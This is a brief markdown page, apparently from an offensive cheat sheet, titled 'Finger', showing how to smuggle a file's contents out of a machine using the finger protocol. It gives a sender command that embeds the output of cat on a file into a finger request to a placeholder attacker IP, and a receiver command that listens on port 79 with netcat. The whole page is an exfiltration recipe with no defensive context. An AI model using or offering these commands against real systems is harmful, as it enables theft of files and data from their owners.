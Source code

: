 # Finger

## 01 - Sender

```
$ finger "$(cat /path/to/file.txt)@<attacker_IP>
```

## 02 - Receiver

```
$ sudo nc -lnvp 79
```